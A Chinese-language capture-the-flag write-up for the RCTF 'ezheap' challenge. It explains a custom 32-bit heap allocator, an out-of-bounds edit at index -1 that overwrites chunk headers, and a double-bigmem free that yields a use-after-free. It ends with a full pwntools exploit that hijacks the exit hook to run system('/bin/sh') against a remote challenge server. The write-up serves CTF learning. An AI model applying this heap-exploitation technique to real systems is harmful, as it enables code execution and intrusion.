 # Rctf ezheap

32位保护全开，自己实现了个堆管理器。

malloc逻辑就是对于小于4096的chunk用一块大的内存搞，大于的话就直接mmap一块，arena里面有相应的一些数据结构管理。

在申请小于maxsize的chunk时，会在bigmem中用随机数找一个地址，如果随机数的地址被占用了，那么再随机一次，随机三次都没找到的话就重新mmap一块bigmem，各个bigmem用fdbk链接成双向链表。chunk的头部是4字节，数值为chunk加上头部大小后的真正大小｜当前chunk属于的bigmem的地址，也就是说低12位为size，高20位为所属的bigmem地址。

free的逻辑大体是每个bigmem都有个类似于fastbin的单链表，free的时候就放进这个单链表头部，然后最大数量是16个。

漏洞点在于edit函数：

![edit](https://s3cunDa.github.io/assets/post/edit.png)

index可以为-1，可以直接修改堆头。

free掉之后再次申请到就可以泄漏fd，也就是mmap的堆的地址，但是这个地址是个随机的，不过问题不大。

有了堆地址后就可以伪造堆头。

在add的时候没有检查堆块的合法性，所以只要有UAF就能有任意内存地址读写

现在就是看看能不能利用这个堆头做什么文章了。

在free的时候有一个检查

![delete](https://s3cunDa.github.io/assets/post/delete.png)

也就是检查一下要free的chunk的size是否和管理他的bigmem的size一样。

由于free一个chunk的时候，程序是根据header来找bigmem的，所以可以通过修改堆头部，修改bigmem，修改的bigmem的realsize要和头部那个size一样。

通过这个修改头部的方式将一个chunk释放到两个bigmem中，具体来说，就是把一个小的chunk释放到大的结构体中，这时候edit他，就有UAF了。

最后攻击的地方是exithook，在__call_tls_dtors函数往后的位置会有一个间接跳转，跳转地址是exithook，参数是exithook之前一段区域，劫持即可。

exp：

```python
from pwn import *
import sys
#context(log_level='debug',os='linux',arch='i386')
myelf = ELF("./ezheap")

#io = remote('chall.pwnable.tw', 10303)
libc = ELF('./libc-2.27.so')
ld = ELF('./ld-2.27.so')
local = False
load_lib = True
if not local:
	io = remote('123.60.25.24', 20077)
elif load_lib :
	io = process(argv=[ld.path,myelf.path],env={"LD_PRELOAD":'./libc-2.27.so'})
	#gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
	#gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)
	
else:
	io = process(argv=[myelf.path])#,env={"LD_PRELOAD":'./libc_64.so.6'})
	#gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
	#gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)
# debug function

def p():
	gdb.attach(io)
	raw_input()
def choice(c):
    io.recvuntil('choice>>')
    io.sendline(str(c))
def sett(t):
    io.recvuntil('type >>')
    io.sendline(str(t))
def add(t,size,idx):
    choice(1)
    sett(t)
    io.recvuntil('size>>')
    io.sendline(str(size))
    io.recvuntil('idx>>')
    io.sendline(str(idx))
def delete(t,idx):
    choice(4)
    sett(t)
    io.recvuntil('idx>>')
    io.sendline(str(idx))
def show(t,idx,eidx):
    choice(3)
    sett(t)
    io.recvuntil('idx>>')
    io.sendline(str(idx))
    io.recvuntil('element_idx>>')
    io.sendline(str(eidx))
def edit(t,idx,eidx,content):
    choice(2)
    sett(t)
    io.recvuntil('idx>>')
    io.sendline(str(idx))
    io.recvuntil('element_idx>>')
    io.sendline(str(eidx))
    io.recvuntil('value>>')
    io.sendline(str(content))
def exp():
    add(3,0xf00,0)
    add(3,0xf00,1)
    add(3,0xf00,2)
    add(3,0xf00,3)
    delete(3,1)
    delete(3,0)
    delete(3,2)
    add(3,0xf00,0)
    add(3,0xf00,1)
    add(3,0xf00,2)
    show(3,0,0)
    #edit(3,0,-1,0xdeadbeef)
    io.recvuntil('value>>\n')
    leak = int(io.recvline(keepends= False).decode())
    # target ld_base + _rtld_global + 2100 / 2104
    while(leak % 0x1000):
        leak -= 0xf04
    log.success(hex(leak))
    origin_big_mem = leak
    another_big_mem = leak - 0x6000
    log.success(hex(another_big_mem))

    libc_base = leak + 0x5000
    exit_hook = libc_base + 0x619060 + 3840

    delete(3,1)
    delete(3,2)
    delete(3,3)

    add(1,0xff0,0)
    add(1,0xff0,1)
    add(1,0xff0,2)
    fake_head = another_big_mem | 0xff4
    edit(3,0,-1,fake_head)
    delete(3,0)
    
    add(1,0xff0,3)
    target = libc_base + 0x213040 + 1220 -4

    tmp = target & 0x000000ff
    edit(1,3,0xf00,tmp)

    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf01,tmp)

    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf02,tmp)

    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf03,tmp)

    target = libc_base + 0x213040 + 1220 - 4
    tmp = target & 0xff
    edit(1,3,0xf04,tmp)

    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf05,tmp)

    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf06,tmp)
    target = target >> 8
    tmp = target & 0xff
    edit(1,3,0xf07,tmp)
    
 
    add(3,0xf00,1)
    add(3,0xf00,2)
    add(3,0xf00,3)
    edit(3,3,0,0x6e69622f)
    edit(3,3,1,0x0068732f)
    edit(3,3,204,libc_base + libc.symbols['system'])
    edit(3,3,205,libc_base + libc.symbols['system'])
    #0xf7ffd834
    # tls call 0xf7fe59eb
    # func addr = 0x40 + 0xf7ffd040 + 0x7f4
    # binsh addr 0xf7ffd504
    
    edit(3,1,-1,another_big_mem | 0x110)

    delete(3,1)
    #gdb.attach(io,'b exit')
    io.interactive()
# 0xf7fce060 arena in bss
# 0xf7fcd040 random array
# 0xf7fca040 bytearray in bss
# 0xf7fcb040 wordarray in bss
# leak = 0xf7de5000
# another bigmem: 0xf7ddf000
# first bigmem manager 0xf7de9000
'''
0x3ccea execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x3ccec execve("/bin/sh", esp+0x38, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x38] == NULL




'''
while(1):
    io = remote('123.60.25.24', 20077)
    try:
        exp()
    except:
        io.close()
        continue
```

